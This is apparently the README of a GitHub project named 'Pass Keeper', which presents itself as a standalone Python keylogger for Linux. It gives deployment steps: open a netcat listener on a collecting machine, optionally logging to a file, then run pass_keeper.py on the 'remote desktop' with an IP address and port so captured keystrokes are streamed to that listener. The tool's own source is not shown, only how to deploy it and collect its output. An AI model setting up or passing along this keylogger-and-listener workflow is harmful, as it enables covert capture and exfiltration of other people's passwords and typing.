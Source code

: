 # Pass Keeper
Key logger for Linux standalone made in python

## How to use

### On listener desktop

Launch a netcat or other tcp server in listening mode
```
nc -nlvp 1234
```

You can also redirect the output in a file
```
nc -nlvp 1234 > file.txt
```

### On remote desktop

1. Download the project on the desktop

2. Launch the script pass_keeper.py with two arguments (Destination IP Address and Destination Port)
```
python3 pass_keeper.py 127.0.0.1 1234
```

